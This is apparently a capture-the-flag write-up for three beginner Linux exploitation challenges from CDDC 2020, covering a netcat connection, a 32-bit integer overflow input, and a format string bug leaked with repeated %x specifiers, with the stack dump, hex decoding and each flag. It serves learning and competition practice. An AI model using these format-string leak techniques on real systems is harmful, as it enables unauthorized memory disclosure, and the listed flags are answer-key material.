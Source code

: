 # System Exploitation

## Pwn (Linux)-1 nc
### Challenge
Hello PwnWorld!

nc.chall.cddc2020.nshc.sg 10000

### Solution
Use netcat to netcat to the given address above and it will return you the flag

### Flag
CDDC20{NiceToMeetYou@PwnWorld}

## Pwn (Linux)-2 (2^31)-1
### Challenge
DESCRIPTION
I like zer0.

zer0.chall.cddc2020.nshc.sg 20002

ATTACHED FILES
None

### Solution
run nc zer0.chall.cddc2020.nshc.sg 20002
The system will ask for input, the title gives (2^31)-1 which is 2147483647. This is the eigth Mersenne prime. If you enter this the outout will be 2147483647, but if you enter 2147483648, output is -2147483648. So you need to increase the input you enter so that the output is 0, and the input is 4294967296.

### Flag
CDDC20{oO0OoO0o0OoO0Oo}


## Pwn (Linux)-3 Find Singapore Bug
### Challenge

DESCRIPTION
Let's FSB!

fsb.chall.cddc2020.nshc.sg 30303

ATTACHED FILES
None

### Solution
Similar to Pwn Challenge 1&2 above, run nc fsb.chall.cddc2020.nshc.sg 30303
The terminal will show you many caterpillars(bugs) but please do not waste your time counting them. Any numeric inputs will not show the answer but just be reflected on the right handside of (base) in your next terminal command (I am using Mac).

Obtaining the clue from the title Find Singapore Bug, FSB actually referred to Format String Bug, and we can lookup more to exploit its vulnerabilities. This vulnerability enables people to subvert memory stack protecions thus allowing alterations of arbitrary memory segments. Different from buffer overun, the memory stack is not damaged from exploiting FSB. Here is a short pdf on the exploit :http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

Basically after running netcat on fsb.chall.cddc2020.nshc.sg 30303, I run about 30 %x to make the system printf to print 30 addresses on the stack:

444443e0 7b303243 41414141 42424242 7e684f2d 4c756f59 656b6165 2d744964 43434343 44444444 2078257d 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 

Run this through a hex convertor:

DDCà{02CAAAABBBB~hO-LuoYekae-tIdCCCCDDDD x%}% x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%

Notice that the line stops at 2078257d before we see a repeated pattern, we can assume the flag stops there. The coverted results sees a resemblence of the flag format. Understanding how a stack is being pushed, we reverse the results in a 2bit directions giving us:

e0434444 4332307b 41414141 42424242 2d4f687e 596f754c 65616b65 6449742d  43434343 44444444 7d257820

converting this will give us:
àCDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}%x

### Flag
CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}










